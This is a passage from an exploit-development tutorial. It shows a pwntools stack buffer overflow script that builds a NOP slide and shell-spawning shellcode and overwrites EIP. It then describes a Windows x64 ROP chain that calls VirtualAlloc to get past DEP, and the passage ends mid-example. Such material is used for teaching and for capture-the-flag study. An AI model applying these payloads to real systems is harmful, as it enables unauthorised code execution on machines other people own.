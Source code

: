 ```

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
```
This script constructs a payload consisting of a **NOP slide**, the **shellcode**, and then overwrites the **EIP** with the address pointing to the NOP slide, ensuring the shellcode gets executed.

The **NOP slide** (`asm('nop')`) is used to increase the chance that execution will "slide" into our shellcode regardless of the exact address. Adjust the `p32()` argument to the starting address of your buffer plus an offset to land in the NOP slide.

## Windows x64: Bypass NX with VirtualAlloc ROP (ret2stack shellcode)

On modern Windows the stack is non-executable (DEP/NX). A common way to still execute stack-resident shellcode after a stack BOF is to build a 64-bit ROP chain that calls VirtualAlloc (or VirtualProtect) from the module Import Address Table (IAT) to make a region of the stack executable and then return into shellcode appended after the chain.

Key points (Win64 calling convention):
- VirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect)
  - RCX = lpAddress → choose an address in the current stack (e.g., RSP) so the newly allocated RWX region overlaps your payload
  - RDX = dwSize → large enough for your chain + shellcode (e.g., 0x1000)
  - R8  = flAllocationType = MEM_COMMIT (0x1000)
  - R9  = flProtect = PAGE_EXECUTE_READWRITE (0x40)
- Return directly into the shellcode placed right after the chain.

Minimal strategy:
1) Leak a module base (e.g., via a format-string, object pointer, etc.) to compute absolute gadget and IAT addresses under ASLR.
2) Find gadgets to load RCX/RDX/R8/R9 (pop or mov/xor-based sequences) and a call/jmp [VirtualAlloc@IAT]. If you lack direct pop r8/r9, use arithmetic gadgets to synthesize constants (e.g., set r8=0 and repeatedly add r9=0x40 forty times to reach 0x1000).
3) Place stage-2 shellcode immediately after the chain.

Example layout (conceptual):
```
# ... padding up to saved RIP ...
# R9 = 0x40 (PAGE_EXECUTE_READWRITE)
POP_R9_RET; 0x40
# R8 = 0x1000 (MEM_COMMIT) — if no POP R8, derive via arithmetic
POP_R8_RET; 0x1000